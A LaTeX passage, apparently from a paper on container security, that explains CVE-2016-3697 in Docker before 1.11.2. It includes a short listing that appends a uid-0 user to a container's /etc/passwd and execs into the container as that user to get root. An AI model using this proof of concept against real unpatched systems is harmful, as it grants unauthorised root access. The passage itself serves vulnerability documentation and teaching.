 \subsection{CVE--2016--3697}
Docker before 1.11.2 did try to interpret values passed to the \lstinline{--user} argument as a username before trying them as a user id~\cite{CVE-2016-3697-Github}. This allows malicious images be created with users that grant \lstinline{root} rights when used.
\begin{lstlisting}[caption={Override \lstinline{root} user in container.},captionpos=b]
(host)$ docker run --rm -it --name=test ubuntu:latest /bin/bash
(cont)# echo '31337:x:0:0:root:/root:/bin/bash' >> /etc/passwd
(host)$ sudo docker exec -it -u 31337 test /bin/bash
(cont)# id
uid=0(root) gid=0(root) groups=0(root)
\end{lstlisting}
